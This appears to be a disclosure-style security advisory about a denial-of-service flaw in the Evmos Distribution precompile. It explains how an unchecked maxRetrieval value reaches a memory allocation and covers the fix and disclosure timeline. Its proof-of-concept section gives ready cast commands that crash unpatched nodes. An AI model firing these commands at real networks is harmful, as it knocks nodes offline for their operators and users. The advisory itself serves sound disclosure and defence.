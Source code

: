 # Evmos Distribution precompile denial-of-service

A vulnerability was identified in the evmos Distribution precompile that causes an out-of-memory condition, resulting in a node denial-of-service (DoS). Testing revealed that it was possible to trigger this vulnerability without the need to deploy a smart contract, or hold a balance on the network. At the time of reporting, the following versions were confirmed exploitable:

* Commit [39195bf2](https://github.com/evmos/evmos/commit/39195bf2f0af7892a7f1c30451faadba7f6835d2)
* Release [v18.1.0](https://github.com/evmos/evmos/releases/tag/v18.1.0)

This issue was remediated in commit [cb403bcf](https://github.com/evmos/evmos/commit/cb403bcf2f80327755dc24b5e78ef406a8ec1c68).

## Details

_tldr;_ The `ClaimRewards` function, accessible via the `Distribution` precompile, allows the caller to specify an arbitrary `maxRetrieval` value that is later passed to the staking module's `GetDelegatorValidators` function. `GetDelegatorValidators` directly uses `maxRetrieval` during a call to `make([]types.Validator, maxRetrieve)`, which allocates a significant amount of memory, leading to an irrecoverable out-of-memory issue.

The `Distribution` precompile makes a `ClaimRewards` function available, allowing a delegator to claim rewards from multiple validators. It accepts two arguments: the delegator address (`delegatorAddr`) and the maximum number of validators to retrieve rewards from (`maxRetrieve`). After parsing these arguments from the call's calldata, the staking module's `GetDelegatorValidators` is called. An excerpt of this is shown below.

```golang
func (p Precompile) ClaimRewards(
	ctx sdk.Context,
	origin common.Address,
	contract *vm.Contract,
	stateDB vm.StateDB,
	method *abi.Method,
	args []interface{},
) ([]byte, error) {
    // parse input arguments
	delegatorAddr, maxRetrieve, err := parseClaimRewardsArgs(args)
	if err != nil {
		return nil, err
	}

    // ...

    // call staking module's GetDelegatorValidators with delegator and max retrieve
	validators := p.stakingKeeper.GetDelegatorValidators(ctx, delegatorAddr.Bytes(), maxRetrieve)
	totalCoins := sdk.Coins{}
    // ...
}
```

In the staking module's `GetDelegatorValidators` function, the `maxRetrieve` amount is used directly during a call to `make()`. An excerpt of this is shown below.

```golang
func (k Keeper) GetDelegatorValidators(
	ctx sdk.Context, delegatorAddr sdk.AccAddress, maxRetrieve uint32,
) types.Validators {
    // using unvalidated maxRetrieve directly in make()
	validators := make([]types.Validator, maxRetrieve)

	store := ctx.KVStore(k.storeKey)
	delegatorPrefixKey := types.GetDelegationsKey(delegatorAddr)

	iterator := sdk.KVStorePrefixIterator(store, delegatorPrefixKey) // smallest to largest
	defer iterator.Close()

    // ...
}
```

A malicious actor can call the `Distribution` precompile's `ClaimRewards` with `maxRetrieval = 0xffffffff` (max `uint32`) to allocate a large amount of memory, leading to an out-of-memory exception and therefore a denial of service condition.

## Proof of Concept

To trigger the vulnerability, either one of the following transactions can be made using foundry's `cast` command. Both transactions specify the caller as the delegator address, and max `uint32` as `maxRetrieval`.

```sh
# use the mykey account bundled with the local node setup
cast call --mnemonic "gesture inject test cycle original hollow east ridge hen combine junk child bacon zero hope comfort vacuum milk pitch cage oppose unhappy lunar seat" 0x0000000000000000000000000000000000000801 'claimRewards(address delegatorAddress, uint32 maxRetrieval)' 0x7cb61d4117ae31a12e393a1cfa3bac666481d02e 0xffffffff

# use a different account that has no native token balance
cast call --mnemonic "test test test test test test test test test test test junk" 0x0000000000000000000000000000000000000801 'claimRewards(address delegatorAddress, uint32 maxRetrieval)' 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266 0xffffffff
```

## Remediation

This issue was [remediated](https://github.com/evmos/evmos/commit/cb403bcf2f80327755dc24b5e78ef406a8ec1c68) by retrieving the maximum amount of validators from the staking keeper, and restricting `maxRetrieval` to that amount.

## Timeline

* 19-06-2024 - Reported vulnerability to Evmos
* 19-06-2024 - Evmos acknowledges receipt of the report
* 27-06-2024 - Evmos provides feedback that the issue is still being attended to, and steps have been taken to mitigate risk of exploitation
* 05-07-2024 - An [advisory](https://github.com/evmos/evmos/security/advisories/GHSA-68fc-7mhg-6f6c) is released and the vulnerability is considered fixed
* 26-08-2024 - Asymmetric Research security advisory is released